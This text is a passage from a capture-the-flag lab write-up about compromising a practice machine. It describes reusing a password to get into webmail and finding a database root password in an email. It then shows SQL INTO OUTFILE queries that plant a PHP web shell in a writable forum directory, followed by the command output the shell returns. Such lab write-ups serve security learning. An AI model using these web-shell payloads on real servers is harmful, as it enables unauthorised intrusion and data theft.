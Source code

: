 # Exploit the webmail

Luckly the same password works with the email found above, and we can access the mail box of `Laurie`. In the mail box
we have 2 mails, one of them contains the DB access `root/Fg-'kKXBj87E:aJ$` which we can try to use on https://10.11.100.56/phpmyadmin.

# Exploit phpmyadmin

Once connected, we don't see anything special in the database, it only contains data of the forum. But since we are connected as DB root
we can try to run some SQL queries that can help us to store scripts in the website.

We can try to store a simple script that says `hello` to see if we can execute it from the wesite using the SQL query:
```SQL
SELECT "<?php echo 'hello'; ?>" INTO OUTFILE "/var/www/forum/hello.php";
```

We find that we don't have write permissions on `/var/www/forum`, and same for `/var/www`.
The forum is using https://mylittleforum.net/, after exploring his source code we can see that there is some subfolders
inside `/forum`, after tring most of them we found out that `templates_c` has write permissions so we can run:
```SQL
SELECT "<?php echo 'hello'; ?>" INTO OUTFILE "/var/www/forum/templates_c/hello.php";
```
Thanks to that we can indeed access https://10.11.100.56/forum/templates_c/hello.php which successfully prints `hello`

We can put a file there that execute a command given from GET params like this:
```SQL
SELECT "<?php system($_GET['c']); ?>" INTO OUTFILE "/var/www/forum/templates_c/exec.php";
```
and we execute https://10.11.100.56/forum/templates_c/exec.php?c=ls%20-la%20/home
which gives us this:
```html
total 0
drwxrwx--x 1 www-data             root                  60 Oct 13  2015 .
drwxr-xr-x 1 root                 root                 220 Apr 30 22:17 ..
drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME
drwxr-x--- 6 ft_root              ft_root              156 Jun 17  2017 ft_root
drwxr-x--- 3 laurie               laurie               143 Oct 15  2015 laurie
drwxr-x--- 1 laurie@borntosec.net laurie@borntosec.net  60 Oct 15  2015 laurie@borntosec.net
dr-xr-x--- 2 lmezard              lmezard               61 Oct 15  2015 lmezard
drwxr-x--- 3 thor                 thor                 129 Oct 15  2015 thor
drwxr-x--- 4 zaz                  zaz                  147 Oct 15  2015 zaz
```
We can see that there is some users but we have also a folder named `LOOKATME`, so let's look at it:

https://10.11.100.56/forum/templates_c/exec.php?c=ls%20-la%20/home/LOOKATME
```html
total 1
drwxr-x--- 2 www-data www-data 31 Oct  8  2015 .
drwxrwx--x 1 www-data root     60 Oct 13  2015 ..
-rwxr-x--- 1 www-data www-data 25 Oct  8  2015 password
```
